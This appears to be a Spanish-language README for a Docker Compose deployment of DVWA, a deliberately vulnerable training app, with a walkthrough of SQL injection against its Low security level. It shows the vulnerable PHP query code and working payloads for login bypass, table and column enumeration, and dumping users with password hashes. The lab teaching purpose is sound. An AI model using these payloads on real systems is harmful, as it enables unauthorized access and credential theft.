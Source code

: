 # dvwa-docker-compose

- [Introducción](#introducción)
- [Cómo desplegar la aplicación](#cómo-desplegar-la-aplicación)
- [Credenciales por defecto](#credenciales-por-defecto)
- [Creación de la base de datos](#creación-de-la-base-de-datos)
- [Configuración del nivel de seguridad](#configuración-del-nivel-de-seguridad)
- [SQL Injection](#sql-injection)
  - [Ejemplo 1. Hacer login sin conocer el password](#ejemplo-1-hacer-login-sin-conocer-el-password)
  - [Ejemplo 2. Obtener el listado de todos los usuarios](#ejemplo-2-obtener-el-listado-de-todos-los-usuarios)
  - [Ejemplo 3. Obtener el listado de todas las tablas de la base de datos](#ejemplo-3-obtener-el-listado-de-todas-las-tablas-de-la-base-de-datos)
  - [Ejemplo 4. Obtener las columnas de la tabla `users`](#ejemplo-4-obtener-las-columnas-de-la-tabla-users)
  - [Ejemplo 5. Obtener el listado de todos los usuarios y sus contraseñas](#ejemplo-5-obtener-el-listado-de-todos-los-usuarios-y-sus-contraseñas)
- [Blind SQL Injection](#blind-sql-injection)
- [Referencias](#referencias)

## Introducción

Este repositorio contiene un archivo `docker-compose.yml` para desplegar la
aplicación [Damn Vulnerable Web Application (DVWA)][1].

[DVWA][1] es una aplicación web desarrollada en PHP y MySQL que ha sido diseñada
con algunas de las vulnerabilidad más comunes que pueden aparecer en las
aplicaciones web.

Puede encontrar más información en el [repositorio oficial del proyecto DVWA][1].


## Cómo desplegar la aplicación

Para desplegar la aplicación ejecute el comando:

```
docker compose up -d
```

Para detener los contenedores:

```
docker compose down
```

Para detener los contenedores y eliminar el volumen de la base de datos:

```
docker compose down -v
```

## Credenciales por defecto

Las credenciales por defecto para acceder a la aplicación son:

- username: `admin`
- password: `password`

## Creación de la base de datos

La primera vez que acceda a la aplicación tendrá que crear la base datos
pulsando sobre el botón `Create / Reset Database`.

Este paso puede realizarlo en cualquier momento para eliminar la base de datos
actual y volver a crearla con los datos por defecto.

## Configuración del nivel de seguridad

La aplicación permite configurar el nivel de seguridad desde el apartado `DVWA Security` del menú principal.

Existen cuatro niveles de seguridad: `Low`, `Medium`, `High` y `Impossible`.

Los ejemplos que se muestran a continuación son para el nivel de seguridad `Low`.

## SQL Injection

De todos los tipos de vulnerabilidades que existen en la aplicación vamos a centrarnos en las de tipo [SQL Injection][2].

### Ejemplo 1. Hacer login sin conocer el password

En este ejemplo vamos a seleccionar la opción `Brute Force` del menú principal, donde nos aparecerá un formulario con dos campos: `username` y `password`.

Al final de la página nos aparece un botón con el texto `View Source` que nos permite ver el código fuente de la página.

El código fuente que utiliza esta aplicación para recibir los parámetros del formulario y construir la consulta SQL es el siguiente:

```php
// Get username
$user = $_GET[ 'username' ];

// Get password
$pass = $_GET[ 'password' ];
$pass = md5( $pass );

$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
```

Podemos hacer un ataque de tipo SQL Injection introduciendo el siguiente valor en el campo `username` del formulario:

```
admin' #
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base de datos será la siguiente:

```SQL
SELECT * FROM `users` WHERE user = 'admin' #' AND password = ...
```

Tenga en cuenta que todo lo que aparezca después del carácter `#` será considerado como un comentario y no se ejecutará.

También puede comentar el resto de la consulta utilizando dos guiones **seguidos de un espacio**, por lo tanto, si enviamos el siguiente valor en el campo `username` del formulario también podríamos hacer un ataque de tipo SQL Injection:

```
admin' -- 
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base de datos será la siguiente:

```SQL
SELECT * FROM `users` WHERE user = 'admin' -- ' AND password = ...
```

## Ejemplo 2. Obtener el listado de todos los usuarios

En este ejemplo vamos a seleccionar la opción `SQL Injection` del menú principal, donde nos aparecerá un formulario con un campo para introducir el identificador de un usuario y buscarlo en la base de datos.

Al final de la página nos aparece un botón con el texto `View Source` que nos permite ver el código fuente de la página.

El código fuente que utiliza esta aplicación para recibir el parámetro del formulario y construir la consulta SQL es el siguiente:

```php
// Get input
$id = $_REQUEST[ 'id' ];
...
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

Podemos hacer un ataque de tipo SQL Injection para obtener el listado de todos los usuarios que existen en la base de datos, introduciendo el siguiente valor en el campo `id` del formulario:

```
1' OR 1 = 1 #
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base de datos será la siguiente:

```SQL
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1 = 1 #';
```

Tenga en cuenta que todo lo que aparezca después del carácter `#` será considerado como un comentario y no se ejecutará.

### Ejemplo 3. Obtener el listado de todas las tablas de la base de datos

```
' UNION SELECT table_name,NULL FROM information_schema.tables #
```

### Ejemplo 4. Obtener las columnas de la tabla `users`

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' #
```

### Ejemplo 5. Obtener el listado de todos los usuarios y sus contraseñas

```
' UNION SELECT user, password FROM users #
```

## Blind SQL Injection

_TODO: En progreso..._

## Referencias

- [Repositorio GitHub del proyecto DVWA][1]
- [SQL Injection][2]. Wikipedia.
- [SQL injection cheat sheet][3]. Invicty Security.
- [SQL Injection][4]. OWASP.
- [Bobby Tables: A guide to preventing SQL injection][5]
- [Blind SQL Injection][6]. OWASP.


[1]: https://github.com/digininja/DVWA
[2]: https://en.wikipedia.org/wiki/SQL_injection
[3]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
[4]: https://owasp.org/www-community/attacks/SQL_Injection
[5]: https://bobby-tables.com 
[6]: https://owasp.org/www-community/attacks/Blind_SQL_Injection